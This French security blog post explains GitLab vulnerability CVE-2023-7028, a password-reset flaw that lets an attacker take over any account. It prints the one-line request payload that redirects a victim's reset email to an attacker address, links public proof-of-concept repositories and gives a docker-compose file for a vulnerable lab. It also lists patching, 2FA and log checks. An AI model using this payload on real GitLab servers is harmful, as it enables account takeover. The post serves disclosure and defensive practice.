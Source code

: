 ```yaml
---
title: "Compromettre des comptes Gitlab avec la vulnérabilité CVE-2023-7028"
description: "Cet article détaille comment Gitlab est vulnérable à la faille CVE-2023-7028 et pourquoi il ne faut pas l'exposer publiquement."
date: 2024-01-19T17:32:30+01:00
draft: false
images: [/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png]
featuredImage: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
featuredImagePreview: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
tags: ["Test d'intrusion", "Exploit", "Gitlab"]
---
```


# 😮 Exposer GitLab publiquement en 2024 : trop dangereux ?

<br>
<br>

Est ce que exposer son propre Gitlab est une bonne pratique de sécurité ? Et bien vous allez voir que **non**.

2024 commence fort et donne encore de bonnes raisons de **ne pas exposer ce service sur Internet** (mais plutôt de l'héberger derrière un VPN).

## Un début d'année sous haute tension

Le 11 janvier 2024, GitLab, la célèbre plateforme communautaire, a publié une annonce importante concernant les nouvelles versions `16.7.2, 16.6.4 et 16.5.6` pour GitLab Community Edition (CE) et Enterprise Edition (EE).

Deux vulnérabilités sont expliquées :

1. La vulnérabilité **CVE-2023-7028** 
    - CVSS de 10/10 😮
    - Elle permet la prise de contrôle d'un compte via la réinitialisation du mot de passe sans interaction de l'utilisateur.

2. La vulnérabilité **CVE-2023-5356** 
    - CVSS de 9.6/10 😟
    - Elle permet à un utilisateur d'abuser des intégrations Slack/Mattermost pour exécuter des commandes slash en tant qu'autre utilisateur.

## En bref

La vulnérabilité la plus problématique est la première : la **CVE-2023-7028**.

Loin d'être inoffensive, elle est très problématique :

- Elle permet de réinitialiser le mot de passe de n'importe quel utilisateur.
- La vulnérabilité est exploitable sans compte.
- Il est nécessaire de connaitre le mail de la victime.
- La charge tient en une ligne : `user[email][]=my.target@example.com&user[email][]=hacker@evil.com`

La deuxième vulnérabilité est tout aussi grave mais moins facilement exploitable.

## Exploitation

Pour exploiter cette vulnérabilité, le PoC est vraiment très simple :

```
user[email][]=valid@email.com&user[email][]=attacker@email.com
```

- `valid@email.com` est l'adresse de la victime
- `attacker@email.com` est l'adresse de l'attaquant

Une confusion est effectuée par GitLab rendant la possibilité à un attaquant d'écraser le mail de la victime par le sien 😮 !

Plus précisément, une modification a été apportée à la version `16.1.0` afin de permettre aux utilisateurs de réinitialiser leur mot de passe à l'aide d'une adresse électronique secondaire. La vulnérabilité résulte d'un bug dans le processus de vérification des email.

👉 Plus de détails sur le blog de GitLab : https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions


## Actions recommandées

Gitlab recommande les actions suivantes : 

1️⃣  **Mise à jour immédiate** : il est fortement conseillé de mettre à jour Gitlab vers la dernière version corrigée. Pour les utilisateurs n'ayant pas encore effectué de mise à jour, GitLab recommande de passer directement aux versions `16.7.3, 16.6.5, 16.5.7` ou ultérieures.

2️⃣ **Activer l'authentification à deux facteurs (2FA)**: GitLab conseille d'activer le 2FA pour tous les comptes. Cette sécurité empêche l'utilisation de cette vulnérabilité.

3️⃣ **Vérification de l'intégrité** : il est conseillé aux clients auto-gérés d'examiner leurs logs afin détecter toute tentative d'exploitation de ces vulnérabilités.

Exemple :

- Consulter le fichier `gitlab-rails/production_json.log` afin de vérifier qu'aucune requête pointant vers la route `/users/password` ne contienne **plusieurs adresses emails**.
- Consulter le fichier `gitlab-rails/audit_json.log` afin de vérifier que le champ `meta.caller_id` de `PasswordsController#create` et `target_details` ne contiennent pas **plusieurs adresses emails**.

## Automatisation

De nombreux PoC sont disponibles sur Internet permettant d'automatiser la vulnérabilité :

- Fait par un français talentueux : https://github.com/Vozec/CVE-2023-7028
- https://github.com/V1lu0/CVE-2023-7028

## Docker vulnérable

Pour les plus curieux, vous trouverez ci-dessous un docker compose vulnérable pour pratiquer cette vulnérabilité

```yaml
version: '3.6'
services:
  gitlab:
    image: 'gitlab/gitlab-ce:16.1.4-ce.0'
    restart: always
    hostname: 'gitlab.domain.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://gitlab.domain.com'
        gitlab_rails['smtp_enable'] = true
        gitlab_rails['smtp_address'] = "smtp_address"
        gitlab_rails['smtp_port'] = 587
        gitlab_rails['smtp_user_name'] = "smtp_user_name"
        gitlab_rails['smtp_password'] = "smtp_password"
        gitlab_rails['smtp_domain'] = "domain.com"
        gitlab_rails['smtp_authentication'] = "login"
        gitlab_rails['smtp_enable_starttls_auto'] = true
    ports:
      - '80:80'
      - '443:443'
      - '22:22'
    volumes:
      - './gitlab/config:/etc/gitlab'
      - './gitlab/logs:/var/log/gitlab'
      - './gitlab/data:/var/opt/gitlab'
```

Disponible sur le GitHub de Trackflaw : https://github.com/Trackflaw/CVE-2023-7028-Docker

## Démonstration

Petite démonstration ci-dessous pour présenter l'exploitation de la vulnérabilité :

<video src="/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/exploit.mp4" controls autoplay loop title="Exploitation de Gitlab avec la vulnérabilité CVE-2023-7028" style="width:100%"></video>

🙏 Patchez rapidement. Trackflaw est la pour vous aider dans cette tâche. Prenez contact avec nous sur https://trackflaw.com ou par email contact (@) trackflaw.com

## Sources

- https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions
